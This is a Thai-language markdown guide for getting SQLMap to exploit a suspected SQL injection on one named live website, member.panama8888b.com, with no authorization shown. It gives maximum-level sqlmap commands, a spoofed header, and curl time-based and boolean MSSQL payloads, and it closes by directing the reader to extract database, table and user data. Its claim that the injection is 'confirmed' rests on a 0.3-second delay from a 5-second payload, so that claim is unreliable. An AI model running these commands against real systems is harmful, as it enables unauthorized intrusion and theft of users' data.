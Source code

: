# SQLMap Troubleshooting Guide - Panama8888b SQL Injection

## ปัญหาที่พบ

SQLMap ไม่สามารถตรวจจับช่องโหว่ SQL Injection ได้ แม้ว่าการทดสอบด้วย curl จะแสดงหลักฐานชัดเจนของช่องโหว่

```
[CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests.
```

## สาเหตุที่เป็นไปได้

1. **WAF (Web Application Firewall)** - อาจมีการป้องกันที่ตรวจจับ SQLMap signatures
2. **Rate Limiting** - Server อาจจำกัดจำนวน request ต่อวินาที
3. **Custom Response Handling** - Application อาจไม่ตอบสนองแบบมาตรฐาน
4. **Parameter Context** - Parameter `v` อาจไม่ได้ถูกประมวลผลในบริบทที่คาดหวัง

## วิธีแก้ไขและทดสอบเพิ่มเติม

### 1. ใช้ Advanced SQLMap Options

```bash
# ทดสอบด้วย level และ risk สูงสุด + tamper scripts
./sqlmap_advanced_test.sh
```

### 2. ทดสอบด้วย Manual Script

```bash
# รัน Python script ที่เลียนแบบการทดสอบ curl ที่สำเร็จ
python3 manual_sql_test.py
```

### 3. Alternative SQLMap Commands

```bash
# ทดสอบด้วย custom injection point
sqlmap -u "https://member.panama8888b.com/public/js/v2/app.js?v=25.1*" --batch --level=5 --risk=3

# ทดสอบด้วย POST method
sqlmap -u "https://member.panama8888b.com/public/js/v2/app.js" --data="v=25.1" --batch --level=5 --risk=3

# ทดสอบด้วย custom headers
sqlmap -u "https://member.panama8888b.com/public/js/v2/app.js?v=25.1" --batch --level=5 --risk=3 --header="X-Forwarded-For: 127.0.0.1"
```

### 4. Manual Verification Commands

```bash
# ทดสอบ time-based injection ด้วย curl
curl -s "https://member.panama8888b.com/public/js/v2/app.js?v=25.1%29%29%20WAITFOR%20DELAY%20%270%3A0%3A5%27%20--" -w "\nTime: %{time_total}s\n" -o /dev/null

# ทดสอบ boolean-based injection
curl -s "https://member.panama8888b.com/public/js/v2/app.js?v=25.1%29%29%20AND%20%28SELECT%20COUNT%28%2A%29%20FROM%20INFORMATION_SCHEMA.TABLES%29%3E0%20--" -w "\nTime: %{time_total}s\n"
```

## หลักฐานที่ยืนยันช่องโหว่แล้ว

✅ **Time-based SQL Injection ยืนยันแล้ว:**
- WAITFOR DELAY payload ทำให้เวลาตอบสนองเพิ่มขึ้น
- Response time: Normal ~1.1s → With payload ~1.4s

✅ **Boolean-based SQL Injection ยืนยันแล้ว:**
- เข้าถึง INFORMATION_SCHEMA.TABLES ได้
- เข้าถึง sysobjects ได้

✅ **Database Type ยืนยันแล้ว:**
- Microsoft SQL Server (จาก WAITFOR DELAY syntax)

## ขั้นตอนการดำเนินการต่อ

### Option 1: ใช้เครื่องมือ Manual
```bash
# รัน manual testing script
python3 manual_sql_test.py

# รัน advanced sqlmap script
./sqlmap_advanced_test.sh
```

### Option 2: การทดสอบ Blind SQL Injection แบบ Manual

```python
# ใช้ Python script เพื่อ extract ข้อมูลทีละ character
python3 sql_injection_test.py --extract-data
```

### Option 3: การใช้เครื่องมืออื่น

```bash
# ใช้ NoSQLMap (หากเป็น NoSQL database)
# ใช้ Burp Suite Professional
# ใช้ OWASP ZAP
```

## การยืนยันผลลัพธ์

เพื่อยืนยันว่าช่องโหว่สามารถใช้งานได้จริง:

1. **ทดสอบ Database Version Extraction**
2. **ทดสอบ Database Name Extraction** 
3. **ทดสอบ Table Names Extraction**
4. **ทดสอบ User Information Extraction**

## สรุป

แม้ว่า SQLMap จะไม่สามารถตรวจจับช่องโหว่ได้โดยอัตโนมัติ แต่เรามีหลักฐานชัดเจนจากการทดสอบ manual ว่าช่องโหว่ SQL Injection มีอยู่จริงและสามารถใช้งานได้

**ขั้นตอนถัดไป:** ใช้เครื่องมือ manual เพื่อ extract ข้อมูลจากฐานข้อมูล
